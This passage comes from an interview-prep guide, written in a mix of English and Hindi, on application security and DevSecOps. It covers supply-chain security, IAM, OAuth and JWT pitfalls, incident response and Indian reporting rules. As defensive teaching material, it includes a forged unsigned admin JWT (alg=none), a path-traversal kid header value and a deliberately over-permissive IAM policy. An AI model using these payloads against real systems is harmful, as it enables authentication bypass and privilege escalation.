### 7.1 SLSA — Supply chain Levels for Software Artifacts

Google-led framework. 4 levels (v1.0):

| Level | Requirement |
|-------|-------------|
| **L1** | Build process is documented + provenance generated |
| **L2** | Build runs on a hosted service + tamper-evident provenance |
| **L3** | Hardened build platform, isolated builds, non-falsifiable provenance |
| **L4** | Two-person review, hermetic + reproducible builds |

Most cloud-native projects target L2-L3 in 2026. L4 is aspirational.

### 7.2 Sigstore + cosign — sign your images

`cosign` from the Sigstore project — keyless signing using OIDC identities. No long-lived keys to rotate.

```bash
# Sign at build time (uses OIDC, e.g. GitHub Actions identity)
cosign sign --yes ghcr.io/myorg/myapp@sha256:abc123...

# Verify at deploy time
cosign verify \
  --certificate-identity-regexp '^https://github.com/myorg/myapp/.+' \
  --certificate-oidc-issuer https://token.actions.githubusercontent.com \
  ghcr.io/myorg/myapp@sha256:abc123...
```

K8s admission controller (e.g. Kyverno) can enforce — only signed images deploy.

### 7.3 SBOM — Software Bill of Materials

A list of all components in your artifact. Industry formats: **SPDX**, **CycloneDX**.

Generate with `syft`:

```bash
syft ghcr.io/myorg/myapp:1.2.3 -o cyclonedx-json > sbom.json
```

Why? Next Log4Shell drops, you grep your SBOMs in seconds: "do we ship Log4j 2.x anywhere?" instead of starting an archaeology project.

US Executive Order 14028 (2021) requires federal contractors to ship SBOMs. India's CERT-In is moving similar way — DPDP Act + sectoral regs.

### 7.4 Recent supply-chain attacks — case studies

- **SolarWinds Orion (2020):** Russia (SVR)-attributed. Build pipeline compromised, malicious DLL signed with valid SolarWinds cert, shipped to ~18,000 customers including US federal agencies. 9-month dwell time. **Lesson:** even signed != safe if the signing system is compromised. SLSA L3+ would have helped.
- **Codecov (April 2021):** Bash uploader script modified, env vars exfiltrated. Cascaded into multiple downstream breaches (HashiCorp, Twilio, Rapid7). **Lesson:** never `curl | bash` from third-party.
- **ua-parser-js (October 2021):** npm package maintainer's account compromised. Three malicious versions published — installed crypto-miner + stole credentials. 8M downloads/week. **Lesson:** 2FA on package registry accounts. npm now mandates for top packages.
- **xz-utils (CVE-2024-3094, March 2024):** Multi-year nation-state social engineering campaign. "Jia Tan" maintainer slowly took over xz, planted backdoor in tarball (not git) targeting OpenSSH via systemd dependency chain. Caught accidentally by Andres Freund (Microsoft engineer noticing 500ms latency on `ssh`). **Lesson:** this is the new normal. Maintainer trust is itself an attack surface.
- **PyPI ctx + phpass (2022):** Both abandoned packages republished by attacker (after typosquat / hijack), env var stealers.

Defense layers:
- Pin checksums / digests, not floating versions
- Mirror dependencies internally (Artifactory, Nexus)
- SBOM + monitor for new CVEs against shipped versions
- Sign everything you publish; verify everything you consume

---

## 8. IAM + zero trust

IAM = Identity and Access Management. Wrong IAM = breach root cause #1 in cloud.

### 8.1 Principle of least privilege

Give each identity (user, service, role) the **minimum** permissions to do its job, **nothing more**. Easy to say, hard to do.

Common anti-pattern: `*:*` on `*` for the dev IAM role "for convenience." Then someone leaks the access key in a public repo. Game over.

### 8.2 AWS IAM policy syntax — JSON

IAM policy = JSON document. Each statement: `Effect`, `Action`, `Resource`, optionally `Condition`.

**Vulnerable — overly broad:**

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }
  ]
}
```

That's god mode. Anything in this AWS account.

**Better — specific to S3 read of one bucket:**

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Action": ["s3:GetObject", "s3:ListBucket"],
      "Resource": [
        "arn:aws:s3:::myapp-uploads",
        "arn:aws:s3:::myapp-uploads/*"
      ],
      "Condition": {
        "IpAddress": { "aws:SourceIp": ["13.234.0.0/16"] },
        "Bool": { "aws:SecureTransport": "true" }
      }
    }
  ]
}
```

Plus mTLS-style: from one VPC endpoint, over TLS, to one bucket.

**Common IAM pitfalls:**
- `iam:PassRole` with `*` resource — privilege escalation lattice (see CloudTrail bug history)
- `sts:AssumeRole` without external ID — confused deputy attacks
- Wildcard in trust policy `Principal: "*"` — anyone in any account can assume
- Inline policies that drift — use managed policies + IaC (Terraform)

Tools:
- **AWS Access Analyzer** — finds public / cross-account exposure
- **Cloudsplaining (Salesforce OSS)** — identifies overprivileged policies
- **prowler** — full AWS audit, hundreds of checks
- **PMapper** — privilege escalation graph in IAM

### 8.3 SSO + SAML + OIDC

Single Sign-On — one identity provider (IdP) for many apps. Standards:

- **SAML 2.0:** XML-based. Older, enterprise-heavy. Okta, ADFS. Vulnerable to XML signature wrapping if implemented badly.
- **OIDC (OpenID Connect):** JSON over OAuth 2.0. Modern, mobile-friendly. Auth0, Cognito, Keycloak.

Flow (OIDC):
1. User clicks "Sign in with Google"
2. App redirects to IdP with `client_id`, `redirect_uri`, `state`, `nonce`, `scope`
3. User auths at IdP
4. IdP redirects back with `code`
5. App exchanges `code` for `id_token` (JWT) + `access_token` at token endpoint (server-to-server, with `client_secret`)
6. App validates `id_token` signature + claims, creates session

**Pitfalls:**
- Open redirect on `redirect_uri` if not strictly validated
- Skipping `state` — CSRF
- Skipping `nonce` — replay
- Trusting `id_token` from URL fragment without signature check (implicit flow — deprecated)

Use **Authorization Code flow with PKCE** for all clients (web, mobile, SPA) in 2026.

### 8.4 Zero-trust architecture

"Never trust, always verify." Old model: castle-and-moat (firewall = perimeter; inside = trusted). Doesn't hold in cloud / WFH world.

Zero trust principles:
- No network is trusted — every request authenticated + authorized
- Identity-centric: who you are > where you're calling from
- Assume breach: design for blast radius containment
- Continuous verification: re-evaluate on context change

Implementation pieces:
- Identity-aware proxy (Google IAP, Cloudflare Access, AWS Verified Access)
- Device posture checks (corp laptop only, latest OS patches)
- mTLS service-to-service (service mesh)
- Short-lived credentials everywhere
- Microsegmentation (network policies + L7 authz)



BeyondCorp (Google) is the canonical implementation. Most Indian cloud-native cos (Razorpay, Cred, Atlassian Bangalore, ThoughtSpot) moving in this direction.

---

## 9. OAuth / OIDC / JWT pitfalls

JWTs (JSON Web Tokens) sabse misused thing in modern auth. Tu inhe `nodejs-backend` mein generation side dekh chuka — yahan **attack side** dekhte hain.

### 9.1 The alg=none attack

JWT structure: `header.payload.signature`. Header includes `alg` field — algorithm.

Ek classic bug — naive lib `alg=none` accept kar leti hai. Attacker forges:

```
{"alg":"none","typ":"JWT"}.{"sub":"admin","role":"admin"}.
```

(Empty signature.) If server skips signature verification when `alg=none`, attacker is admin.

**Defense:** Library config — explicitly allowlist `alg` values. Reject `none`.

```javascript
// FIXED — node-jsonwebtoken
jwt.verify(token, publicKey, { algorithms: ["RS256"] });
// NOT
jwt.verify(token, publicKey);  // accepts whatever alg the token claims
```

### 9.2 HS256 / RS256 key confusion

HS256 = HMAC with shared secret. RS256 = RSA with private/public key.

Server normally uses RS256 — clients verify with **public key**. Attacker grabs public key (often public!), then forges a JWT signed with HS256 using **the public key as the HMAC secret**. Vulnerable libs: if alg-mode is taken from the token, server validates HS256 with what it thinks is the "key" (which is the public key). Match.

**Defense:** Pin the algorithm server-side, never trust `alg` from token.

### 9.3 Token leakage in URLs / logs

Bad pattern: `GET /api/data?access_token=eyJhbGc...`. Tokens land in:
- Browser history
- Server access logs (nginx, CloudFront)
- Referer headers (cross-origin links)
- Analytics tools

**Defense:** Always `Authorization: Bearer ...` header. Never query string.

### 9.4 Refresh token reuse + rotation

OAuth 2 has access tokens (short-lived, ~15min) and refresh tokens (long, days/weeks). If refresh token leaks, attacker impersonates user for the full lifetime.

**Defense — refresh token rotation:** Each use of refresh token returns a *new* refresh token; old one is revoked. If attacker uses the old one (after victim has rotated), the IdP detects reuse and revokes the entire family. Auth0, Okta, Cognito support this. RFC 6819 / OAuth 2.0 BCP.

### 9.5 Other common JWT pitfalls

- **No expiry (`exp` missing):** JWTs valid forever. Always set `exp`. Verify it.
- **`kid` header injection:** Some libs use `kid` (key ID) to look up the key from a DB / file. Path traversal: `kid: "../../../dev/null"` → empty key → HMAC of empty = predictable.
- **JWT in localStorage:** XSS reads it. Cookie with `HttpOnly + Secure + SameSite=Strict` better, but then CSRF — handle with double-submit cookie or SameSite + CSRF token.
- **Storing PII in JWT:** JWTs are base64 (not encrypted). Don't put `aadhaar_number`, `pan`, etc. inside.

Cross-link to `nodejs-backend` JWT issuance section for the *signing side* + best-practice library setup.

---

## 10. Incident response

Breach **will** happen. IR is the discipline of responding fast + cleanly.

### 10.1 The 6-phase IR process (NIST SP 800-61r2)

| Phase | Goal | Activities |
|-------|------|------------|
| 1. **Preparation** | Be ready before incident | IR plan, runbooks, on-call, training, comms templates, IR retainer |
| 2. **Detection + Analysis** | Find + scope the incident | SIEM alerts, triage, forensics, scope assessment |
| 3. **Containment** | Stop the bleed | Short-term: isolate hosts, block IPs. Long-term: patch, change creds |
| 4. **Eradication** | Remove the threat | Kill backdoors, rotate keys, rebuild compromised systems |
| 5. **Recovery** | Return to normal | Restore from clean backups, monitor for re-infection |
| 6. **Lessons Learned** | Improve | Postmortem, action items, runbook updates |

### 10.2 Postmortem culture — blameless

After incident: write a postmortem. Goal: learn, not blame.

Template:
- **Summary:** 2 sentences
- **Impact:** users / revenue / SLOs
- **Timeline:** UTC, every detection / decision / action
- **Root cause(s):** the actual mechanism
- **Contributing factors:** what made it worse
- **Detection:** how + when caught
- **Response:** what worked, what didn't
- **Action items:** owner + deadline + tracked

**Blameless** = critique systems, not individuals. "Alice deployed a bad change" → "Our deployment process didn't catch a regression because tests didn't cover X." Result: people share the truth, not hide.

Indian shops adopting this: Razorpay, Cred, Zerodha, Atlassian Bangalore. Banks slowly catching up.

### 10.3 Evidence preservation

For legal / regulatory / forensic needs:
- **Don't power off** — RAM has crucial state. Take memory dump (LiME, Volatility).
- **Disk image first** (dd, FTK Imager) before any analysis on the live system.
- **Preserve logs** — copy to write-once storage (S3 with object lock, immutable). Logs on the compromised host = can be tampered.
- **Chain of custody** — who touched what, when, hash of every artifact.
- **Coordinate with legal** before talking to law enforcement / press / customers.

### 10.4 Indian regulatory — CERT-In 6-hour rule

**CERT-In (Indian Computer Emergency Response Team)** — April 2022 directive — mandates reporting of cybersecurity incidents **within 6 hours** of detection. Categories include:
- Identity theft, phishing
- Targeted scanning / probing of critical networks
- Compromise of critical systems (banking, payments, CIIs)
- Unauthorized access to social media accounts
- Data breaches / leaks
- Attacks on IoT / cloud / cryptocurrency / digital payment systems

Plus: VPN providers must keep user logs 5 years. Crypto exchanges KYC + 5-year records.

Sectoral overlays:
- **RBI** for banks / NBFCs / payment cos: separate reporting + 24x7 SOC requirement
- **SEBI** for capital market intermediaries: similar incident reporting
- **DPDP Act 2023:** Data Protection Board notifications for personal data breaches
- **PCI-DSS** for cards: VISA / Mastercard breach reporting (industry, not government)

So an Indian fintech might need to file **4-5 different reports** for a single payment breach. IR plan must include the regulatory matrix.

---

## 11. Top 30 AppSec / DevSecOps interview questions

| # | Question | One-line answer |
|---|----------|-----------------|
| 1 | OWASP Top 10 2021 list? | A01 Access ctrl, A02 Crypto, A03 Injection, A04 Insecure design, A05 Misconfig, A06 Vuln components, A07 AuthN, A08 Integrity, A09 Logging, A10 SSRF |
| 2 | Difference between SAST and DAST? | SAST = source code, DAST = running app, SCA = dependencies |
| 3 | What is IDOR? | Insecure Direct Object Reference — access another user's resource by changing an ID; A01 Access Control |
| 4 | Vulnerable vs fixed SQL? | Concat = vulnerable; parameterized / prepared statement = fixed |
| 5 | Why bcrypt over MD5? | bcrypt is slow + salted + GPU-resistant; MD5 is fast + collision-prone, terrible for passwords |
| 6 | Explain Log4Shell. | CVE-2021-44228, JNDI lookup in logged strings → RCE; fix: upgrade Log4j ≥ 2.17.1, disable lookups |
| 7 | What is SSRF? | Server fetches attacker-controlled URL; can hit internal services / metadata endpoints |
| 8 | How does AWS IMDSv2 fix SSRF? | Token-based — requires PUT to get token, then GET with token; basic SSRF can't get token |
| 9 | STRIDE letters? | Spoofing, Tampering, Repudiation, Info disclosure, DoS, Elevation of privilege |
| 10 | What is mTLS? | Mutual TLS — both client + server present certs; identity-based service-to-service auth |
| 11 | JWT alg=none attack? | Server accepts unsigned tokens if alg is "none"; fix: pin algorithm allowlist server-side |
| 12 | HS256 vs RS256 confusion? | Attacker forges HS256 token using public key as HMAC secret if server uses alg from token |
| 13 | What is CSRF? | Cross-site request forgery — victim's browser makes authenticated request to target on attacker's behalf; defense: SameSite cookies + CSRF tokens |
| 14 | What is XSS? Types? | Cross-site scripting — inject JS into page. Reflected, stored, DOM-based. Defense: contextual output encoding + CSP |
| 15 | Content Security Policy? | HTTP header restricting JS / CSS sources; mitigates XSS impact |
| 16 | What is SSRF blocklist vs allowlist? | Allowlist (domain/IP whitelist) is safer; blocklists get bypassed (DNS rebinding, IPv6 mapping) |
| 17 | What is Dependabot? | GitHub-native SCA; auto-PRs to bump deps with known CVEs |
| 18 | What is SBOM? | Software Bill of Materials — list of all components in artifact; SPDX / CycloneDX formats |
| 19 | Sigstore + cosign? | Keyless artifact signing using OIDC identity; verify in admission controller |
| 20 | SLSA levels? | L1-L4; L3 = hardened build platform, non-falsifiable provenance |
| 21 | K8s Pod Security Standards? | Privileged / Baseline / Restricted profiles; namespace-level enforce |
| 22 | What is RBAC in K8s? | Role-Based Access Control — Roles + RoleBindings tied to ServiceAccounts |
| 23 | Default deny network policy? | NetworkPolicy with empty podSelector + policyTypes Ingress + Egress; nothing allowed unless explicit |
| 24 | Vault dynamic secrets? | DB credentials minted per-app per-lease; revoked on lease expiry |
| 25 | OAuth Authorization Code + PKCE? | Public clients (mobile, SPA) use PKCE — code_verifier / code_challenge — to prevent code interception |
| 26 | OWASP A05 — common misconfigs? | Default creds, debug mode on, exposed admin panels, S3 public, verbose errors |
| 27 | What is gitleaks? | Pre-commit / scan tool detecting hardcoded secrets in repo |
| 28 | Threat modelling — when? | Pre-implementation of new feature, major arch change, post-incident, annual high-risk review |
| 29 | CERT-In 6-hour reporting? | Indian directive — report cybersec incidents within 6h of detection to CERT-In |
| 30 | Blameless postmortem — why? | Focuses on system improvement, not individual fault; encourages truthful disclosure → faster learning |

---

## 12. Pre-interview checklist

Walk-in ke 60 second pehle yeh mentally tick kar:

- [ ] Can I list OWASP Top 10 2021 by code (A01-A10) + one example each?
- [ ] Can I write vulnerable + fixed code for SQLi, NoSQLi, command injection?
- [ ] Can I explain SSRF + why IMDSv2 fixes the EC2 metadata variant?
- [ ] Can I draw the Log4Shell exploit chain end-to-end?
- [ ] Can I list STRIDE categories with one example threat each?
- [ ] Can I threat-model a payment flow on a whiteboard?
- [ ] Do I know the difference between SAST, DAST, SCA, IAST?
- [ ] Can I write a Semgrep rule from memory for hardcoded secrets?
- [ ] Can I explain bcrypt vs Argon2 + why both beat MD5/SHA1?
- [ ] Do I understand TLS 1.3 vs 1.2 handshake (cross from networks)?
- [ ] Can I write a least-privilege AWS IAM policy in JSON?
- [ ] Can I name the 4 PSS profiles + their use cases?
- [ ] Can I explain default-deny network policy in K8s?
- [ ] Can I describe the JWT alg=none + HS256/RS256 confusion attacks?
- [ ] Can I list refresh-token rotation + why family revocation matters?
- [ ] Can I explain SLSA levels at a high level?
- [ ] Do I know cosign + Sigstore keyless signing?
- [ ] Can I generate + reason about an SBOM?
- [ ] Can I name 3 supply-chain attacks (SolarWinds, Codecov, ua-parser-js, xz-utils)?
- [ ] Can I cite the 6 IR phases in order?
- [ ] Do I know the CERT-In 6-hour reporting requirement?
- [ ] Can I write a blameless postmortem?
- [ ] Have I done at least 3 PortSwigger Web Security Academy labs end-to-end?
- [ ] Have I read at least 5 HackerOne disclosed reports + can articulate them?
- [ ] Do I have a HackerOne / Bugcrowd profile + 1 responsible disclosure (even small)?

If 18+ ticked, walk in confident. AppSec interview narrative-driven hota hai — *kahan toot ta hai, kyu toot ta hai, fix kya hai* — yeh teen sawal har vulnerability pe ready honi chahiye.

---

## What to learn next

AppSec / DevSecOps strong ho gaya — ab compounding effect ke liye yeh order follow kar:

- **`networks-complete`** — TLS, mTLS, DNS — har AppSec attack ek network layer pe stand karta hai
- **`os-complete`** — process isolation, namespaces, capabilities, seccomp — container security ka substrate
- **`system-design-basics`** — auth flows, API gateway, rate limiting — design-level security
- **`nodejs-backend`** — JWT issuance side, secure cookie flags, CSRF middleware
- **`docker-containers`** + **`kubernetes-orchestration`** — container hardening + admission controllers
- **`cicd-pipelines`** — security gates in pipelines, signed releases
- **`monitoring-observability`** — SIEM integration, attack detection, audit log design
- **`cloud-platforms`** — AWS / GCP / Azure security services (GuardDuty, Security Command Center, Defender)

AppSec is a *career*, not a *cert*. The pattern that wins: keep a public profile (HackerOne / Bugcrowd / GitHub Security Advisories), one CVE / disclosure, one CTF team, one talk at a meetup (null Bangalore, OWASP local chapter). Inse interviews walk into your inbox, not the other way around.

Bas itna kar — aur 2026 mein 18-50 LPA fresher ka band tujhe na sirf clear, balki *negotiate* karne layak ban chukega. AppSec waale `nai` nahi bolte — aur tu un mein se ek hai ab.
